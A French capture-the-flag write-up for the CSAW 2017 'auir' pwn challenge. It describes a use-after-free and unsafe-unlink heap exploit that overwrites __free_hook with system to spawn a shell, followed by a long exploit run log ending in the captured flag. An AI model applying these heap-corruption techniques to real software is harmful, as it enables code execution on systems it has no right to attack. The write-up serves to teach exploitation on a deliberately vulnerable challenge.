 ```yaml
---
layout: post
title: "CSAW CTF"
date: 18 Septembre 2017
comments: true
categories: wu
---
```

```
 ===== INFOS ===== 
Filename                 auir
File format              ELF64
Architecture             x86-64
Endianess                little endian
Entry point              0x400da0
Loadables segments       2
Sections                 28

NX bit                   enabled
SSP                      disabled
Relro                    partial
RPATH                    no rpath
RUNPATH                  no runpath
PIE                      disabled
```
Le binaire présente plusieurs failles:

1) Un tableau de pointeur vers des zones dans le tas (heap) voit ses entrées
mises par incrément, toujours accessibles et jamais effacées. Cela permet un
use after free.

2) la possibilité d'adresser des pointeurs en dehors du tableau (cela s'est
avérée inutile)

L'idée générale consiste à creer un gros bloc puis à le supprimer et à créer
des plus petis blocs qui seront à l'intérieur de ce gros bloc. La possibilité
d'editer et de visualiser le gros bloc permet de modifier les entêtes des
chunks et de recupèrer les adresses du tas (inutile) et de la main_arena
donc de la libc.

Un unsafe_unlink est utilisée pour pour éditer le pointeur d'un des zealot
et de le faire pointer vers __free_hook ou on met l'adresse de system.

La destruction d'un zealot s'appelant /bin/sh permet d'obtenir un shell.

```
[*] '/home/francois/BFF/beers4flags/writeups/2017/csaw2017/pwn/auir/auir'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/home/francois/BFF/beers4flags/writeups/2017/csaw2017/pwn/auir/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[x] Opening connection to pwn.chal.csaw.io on port 7713
[x] Opening connection to pwn.chal.csaw.io on port 7713: Trying 216.165.2.35
[+] Opening connection to pwn.chal.csaw.io on port 7713: Done
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
destroy  0
look at 0
[+] arena= 0x7fe1dbaffb78
[+] system= 0x7fe1db780390
system  =  0x7fe1db780390
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
destroy  4
destroy  5
look at 5
[+] heap= 0xb13c20
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
destroy  7
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
[*]WHCIH ONE DO YOU WANT TO FIX ?
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
[*]FIXED ZEALOT NUMBER:7
[*]FIXED ZEALOT SIZE:1024
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
destroy  9
le numéro 8 pointe sur le numéro 5
look at 5
[*]SHOWING....
x[code hexa divers]|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
[*]WHCIH ONE DO YOU WANT TO FIX ?
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
[*]WHCIH ONE DO YOU WANT TO FIX ?
>>
[*]SPECIFY THE SIZE OF ZEALOT
>>
[*]GIVE SOME SKILLS TO ZEALOT
>>
destroy  2
[*] Switching to interactive mode
[*]BREAKING....
$ cat flag
flag{W4rr10rs!_A1ur_4wa1ts_y0u!_M4rch_f0rth_and_t4k3_1t!}
$ exit
[*]SUCCESSFUL!
|-------------------------------|
[1]MAKE ZEALOTS
[2]DESTROY ZEALOTS
[3]FIX ZEALOTS
[4]DISPLAY SKILLS
[5]GO HOME
|-------------------------------|
>>
```
